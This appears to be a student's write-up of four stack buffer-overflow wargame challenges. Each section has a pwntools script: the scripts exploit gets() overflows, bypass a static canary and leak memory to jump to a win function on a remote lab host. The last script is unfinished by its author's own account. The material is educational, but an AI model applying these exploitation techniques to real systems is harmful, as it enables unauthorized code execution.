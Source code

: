 Re
===========================

See reverse engineered file for notes. 

Jump
===========================

General overview of problems faced
-------------------------------------
None.

List of vulnerabilities
--------------------
1. `gets(&buffer);` is used which will continue to read (and write) even if it overflows the 64 byte buffer

Steps to exploit
------------------
1. Find size of buffer using pwntools cyclic
2. Get the win function address from the output of the binary
3. Fill the 64 byte buffer and then overwrite the return address at the end with the address of the win function

Script/Command used
------------------
``` python
#!/usr/bin/env python3

from pwn import *

p = remote("6447.lol", 24224)

p.recvuntil(b"at ")
win_address = p.recvline().strip() # we read in the win address
win_address = int(win_address, 16) # and store it in an integer format

# payload = cyclic(200)

payload = b"A" * 72 # rax register was corrupted by 7016996846897815923, which by running `cyclic -l` returned an offset of 72
payload += p64(win_address) # insert win_address, overriding function pointer

p.sendlineafter(b"pointers work ?", payload)

p.interactive()
```

Blind
===========================

General overview of problems faced
-------------------------------------
No problems.

List of vulnerabilities
--------------------
1. Similar to JUMP, except win function can be retrieved from binary

Steps to exploit
------------------
1. Find size of buffer using pwntools cyclic
2. Get address of win function with `objdump -d blind` or using binary ninja
3. Fill buffer and write return addr at the end

Script/Command used
------------------
``` python
#!/usr/bin/env python3

from pwn import *

# p = process("./blind")
p = remote("6447.lol", 18496)

win_address = 0x401196  # replaced win address from the address of the win method from binary ninja
offset = 72

payload = b"A" * offset
payload += p64(win_address)

p.sendline(payload)
p.interactive()
```


Best Security
===========================

General overview of problems faced
-------------------------------------
Program seemed to end on EOF character despite printing win function, and also the incorrect canary message is still being printed - bypass overrides return address in incorrect canary if statement - probably an issue with correctly overriding the canary field. 

List of vulnerabilities
--------------------
Use of gets() in check_canary allows for buffer overflow. Also buf seems to serve no real purpose apart from allowing users to run an exploit.

Steps to exploit
------------------
1. Find size of buffer using pwntools cyclic
2. Read static canary from decompiler
3. print offset number of characters, followed by canary and win address to get shell access

Script/Command used
------------------
``` python
#!/usr/bin/env python3

from pwn import *

# p = process("./bestsecurity")
p = remote("6447.lol", 14860)

p.recvuntil(b"...\n")

win_address = 0x4011b6 
offset = 144 - 0x9 # offset from stack size (0x90) to canary (0x9)

payload = b"A" * offset
payload += b"12345678" # canary value (as seen on binary ninja)
payload += p64(win_address)

p.sendline(payload)
p.interactive()

```

Stack Dump
===========================

General overview of problems faced
-------------------------------------
Finding the canary was a challenge, I was not able to work out the offset correctly to read the canary memory field.

List of vulnerabilities
--------------------
Use of gets when reading length of entered string allows for buffer overflow. Also, program allows user to read arbitrary memory, which allows it to leak the canary.

Steps to exploit
------------------
1. Retrieve the stack pointer from the second line from the server 
2. Calculate the address of the canary by offseting stack pointer (could not work out correct offset)
3. Enter canary using 'input' option [i]
4. Read the canary from the memory dump option [d]
5. Select 'input' option [i] and enter offset number of bytes from buffer to canary in the length field, followed by canary and the address of the win function.
6. Select 'quit' option [q] and get shell access. 

Script/Command used
------------------
``` python
#!/usr/bin/env python3

from pwn import *
import re

p = process("./stack-dump")
# p = remote("6447.lol", 7139)

win_addr = 0x4012f6
offset = 96

reply = p.recvlines(2)	# starting lines
stack_ptr = re.search('0x(.{12})', str(reply[1])).group(0)
log.info("Stack pointer: %s" % (stack_ptr))
p.sendlineafter(b"[q]uit", b"i")
p.sendline(b"4")

stack_ptr = int(stack_ptr, 0) - 0x4
payload_leak = p64(stack_ptr)
p.sendline(payload_leak)
p.recvuntil(b"[q]uit\n")
p.recvuntil(b"[q]uit\n")
p.recvuntil(b"[q]uit\n")

p.sendline(b"d")
canary = p.recvline()
# canary = canary[22:26]
print(canary)
# # log.info("Canary: %s" % canary)
# p.recvlines(4)
p.interactive()


# p.sendline(b"i")
# p.sendline(bytes(size))
# p.sendline('A' * (0x71 - 0x4) + canary + '\xf6\x12\x40\x00' * 4)

# p.sendline(payload_return)
# p.recvlines(10)
# p.sendline(b"q")

# p.sendline(b"cat /flag")
# flag = p.recvline()
# log.success("Flag: %s" % (flag))
# p.close()
```


